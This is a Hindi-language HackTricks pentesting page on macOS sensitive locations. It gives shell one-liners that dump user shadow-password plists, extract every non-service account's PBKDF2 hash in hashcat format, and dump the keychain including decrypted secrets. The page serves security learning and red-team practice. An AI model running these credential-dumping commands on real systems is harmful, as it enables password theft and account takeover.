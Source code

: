 # macOS संवेदनशील स्थान और दिलचस्प डेमन

{% hint style="success" %}
सीखें और AWS हैकिंग का अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
सीखें और GCP हैकिंग का अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details><summary>HackTricks का समर्थन करें</summary></details>
{% endhint %}

## पासवर्ड

### शैडो पासवर्ड

शैडो पासवर्ड उपयोगकर्ता की कॉन्फ़िगरेशन के साथ **`/var/db/dslocal/nodes/Default/users/`** में स्थित plist में संग्रहीत होता है।\
निम्नलिखित एकल पंक्ति का उपयोग **उपयोगकर्ताओं के बारे में सभी जानकारी** (हैश जानकारी सहित) को डंप करने के लिए किया जा सकता है:

{% code overflow="wrap" %}
```bash
for l in /var/db/dslocal/nodes/Default/users/*; do if [ -r "$l" ];then echo "$l"; defaults read "$l"; fi; done
```
{% endcode %}

[**इस तरह के स्क्रिप्ट**](https://gist.github.com/teddziuba/3ff08bdda120d1f7822f3baf52e606c2) या [**यह वाला**](https://github.com/octomagon/davegrohl.git) हैश को **hashcat** **फॉर्मेट** में बदलने के लिए उपयोग किया जा सकता है।

एक वैकल्पिक वन-लाइनर जो hashcat फॉर्मेट `-m 7100` (macOS PBKDF2-SHA512) में सभी गैर-सेवा खातों के क्रेडेंशियल्स को डंप करेगा:

{% code overflow="wrap" %}
```bash
sudo bash -c 'for i in $(find /var/db/dslocal/nodes/Default/users -type f -regex "[^_]*"); do plutil -extract name.0 raw $i | awk "{printf \$0\":\$ml\$\"}"; for j in {iterations,salt,entropy}; do l=$(k=$(plutil -extract ShadowHashData.0 raw $i) && base64 -d <<< $k | plutil -extract SALTED-SHA512-PBKDF2.$j raw -); if [[ $j == iterations ]]; then echo -n $l; else base64 -d <<< $l | xxd -p -c 0 | awk "{printf \"$\"\$0}"; fi; done; echo ""; done'
```
{% endcode %}

### Keychain Dump

ध्यान दें कि सुरक्षा बाइनरी का उपयोग करके **डिक्रिप्ट किए गए पासवर्ड को डंप करने** पर, कई प्रॉम्प्ट उपयोगकर्ता से इस ऑपरेशन की अनुमति देने के लिए पूछेंगे।
```bash
#security
security dump-trust-settings [-s] [-d] #List certificates
security list-keychains #List keychain dbs
security list-smartcards #List smartcards
security dump-keychain | grep -A 5 "keychain" | grep -v "version" #List keychains entries
security dump-keychain -d #Dump all the info, included secrets (the user will be asked for his password, even if root)
```
### [Keychaindump](https://github.com/juuso/keychaindump)
